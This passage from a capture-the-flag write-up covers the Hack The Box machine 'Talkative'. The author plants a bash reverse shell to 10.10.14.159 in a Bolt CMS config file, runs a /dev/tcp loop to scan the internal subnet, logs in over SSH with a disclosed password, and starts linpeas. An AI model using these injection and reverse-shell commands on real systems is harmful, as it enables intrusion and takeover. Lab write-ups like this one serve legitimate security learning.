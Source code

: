 Browsing the CMS for a while, I noticed that there are several configurations files at: http://talkative.htb/bolt/filemanager/config

Looking at config/bundles.php, I see a bunch of php code. Let's inject ours and hope for a shell. 

In bundles.php, `exec("/bin/bash -c 'bash -i >& /dev/tcp/10.10.14.159/1338 0>&1'");`. 

![bolt-cms bundle](https://th3redtea.github.io/assets/img/bundle-config.png)

I got a session with pwncat as a `www-data` inside another conatiner.

# Escalating to SSH as saul. 

There's no other user:

```bash
(remote) www-data@c659d3af128a:/var/www/talkative.htb/bolt/public$ cat /etc/passwd | grep 'bash'
root:x:0:0:root:/root:/bin/bash
(remote) www-data@c659d3af128a:/var/www/talkative.htb/bolt/public$ ls /home
(remote) www-data@c659d3af128a:/var/www/talkative.htb/bolt/public$ 
```
Let's check the ip address with `hostname -I `

```bash
(remote) www-data@c659d3af128a:/var/www$ hostname -I 
172.17.0.14
```
Discovered that ssh port is open in address 172.17.0.1. I used this cool one liner to scan ssh port: 

```bash
(remote) www-data@d6b75aaee51b:/var/www/talkative.htb/bolt/public$ for i in {1..255};do (echo </dev/tcp/172.17.0.$i/22) &>/dev/null && echo -e "\n[+] Open port at:\t$i" || (echo -n "."&&exit 1);done

[+] Open port at:       1
```
I got ssh with saul the admin using password: `jeO09ufhWD<s`
 
Saul has the user.txt file (forget to screenshot it because there's no need.)

Running linpease: 

```bash
saul@talkative:/tmp$ ./linpease.sh 


                            ▄▄▄▄▄▄▄▄▄▄▄▄▄▄
                    ▄▄▄▄▄▄▄             ▄▄▄▄▄▄▄▄
             ▄▄▄▄▄▄▄      ▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄  ▄▄▄▄
         ▄▄▄▄     ▄ ▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄ ▄▄▄▄▄▄
         ▄    ▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄
         ▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄ ▄▄▄▄▄       ▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄
         ▄▄▄▄▄▄▄▄▄▄▄          ▄▄▄▄▄▄               ▄▄▄▄▄▄ ▄
         ▄▄▄▄▄▄              ▄▄▄▄▄▄▄▄                 ▄▄▄▄ 
         ▄▄                  ▄▄▄ ▄▄▄▄▄                  ▄▄▄
         ▄▄                ▄▄▄▄▄▄▄▄▄▄▄▄                  ▄▄
         ▄            ▄▄ ▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄   ▄▄
         ▄      ▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄
         ▄▄▄▄▄▄▄▄▄▄▄▄▄▄                                ▄▄▄▄
         ▄▄▄▄▄  ▄▄▄▄▄                       ▄▄▄▄▄▄     ▄▄▄▄
         ▄▄▄▄   ▄▄▄▄▄                       ▄▄▄▄▄      ▄ ▄▄
         ▄▄▄▄▄  ▄▄▄▄▄        ▄▄▄▄▄▄▄        ▄▄▄▄▄     ▄▄▄▄▄
         ▄▄▄▄▄▄  ▄▄▄▄▄▄▄      ▄▄▄▄▄▄▄      ▄▄▄▄▄▄▄   ▄▄▄▄▄ 
          ▄▄▄▄▄▄▄▄▄▄▄▄▄▄        ▄          ▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄ 
         ▄▄▄▄▄▄▄▄▄▄▄▄▄                       ▄▄▄▄▄▄▄▄▄▄▄▄▄▄
         ▄▄▄▄▄▄▄▄▄▄▄                         ▄▄▄▄▄▄▄▄▄▄▄▄▄▄
         ▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄            ▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄
          ▀▀▄▄▄   ▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄ ▄▄▄▄▄▄▄▀▀▀▀▀▀
```
